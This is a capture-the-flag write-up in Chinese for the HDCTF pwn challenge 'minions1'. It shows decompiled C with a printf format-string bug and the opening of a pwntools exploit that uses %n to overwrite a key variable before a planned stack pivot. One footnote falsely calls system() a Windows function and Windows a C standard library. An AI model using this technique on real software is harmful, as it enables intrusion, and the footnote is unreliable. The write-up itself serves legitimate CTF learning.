 #### 1:minions1

###### 部分题目代码:

- main

  ```c++
  int __fastcall main(int argc, const char **argv, const char **envp)
  {
    char buf[48]; // [rsp+0h] [rbp-30h] BYREF
  //==char buf[0x30];
    init(argc, argv, envp);
    vuln();
    puts("\nDo you have an invitation key?");
    if ( key == 102 )
    {
      puts("welcome,tell me more about you");
      read(0, buf, 0x40uLL);
      puts("That's great.Do you like Minions?");
      read(0, &hdctf, 0x28uLL);
    }
    else
    {
      puts("sorry,you can't in");
    }
    return 0;
  }
  ```

- vuln

  ```c++
  int vuln()
  {
    char buf[208]; // [rsp+0h] [rbp-D0h] BYREF
  
    puts("Welcome to HDCTF.What you name?\n");
    read(0, buf, 0xD0uLL);
    printf("Hello,");
    return printf(buf);
  }
  ```

这是一道printf格式化字符串+栈迁移的题目.首先,我们需要通过printf来修改key为102,然后,我们需要将栈迁移到一个合适的地方,以获取足够的空间来获取shell.

那么,我们先来对付前者:

```python
from pwn import *
#6
#0x601000-0x602000
read_add=0x4007E8
bss_add=0x601C00
learet_add=0x400758
key_add=0x6010A0
sys_add=0x4005C0
hdctf_add=0x6010C0
rdi_add=0x400893
r=process("./minions1")
#gdb.attach(r)
pause()
payload1=p64(key_add)+b'%94c%8$n'
```


[^栈迁移]: 知识库里讲的挺详细的(话说那篇文章我在网上也搜到过来着),可以去看看
[^库函数]: 例如printf,scanf都是常见的stdio.h下的函数,而stdio又是c标准库之一,因此它们都会被包含在glibc中.类似的,system()是Windows库函数,而Windows也是c标准库.所以我们能在使用了libc库的程序里使用system("/bin/sh")来getshell
[^system()]: 除了在Linux下执行/bin/sh以外,它还能干许多其他的事情.比如创建目录,删除文件,启动某个程序之类的↓.
[^*]: 其实当时的问题在于自动登录莫名其妙的失效了,而且我的上一个快照还是一周前的...在重启了好多次以后我还是没能下定决心恢复到上一个快照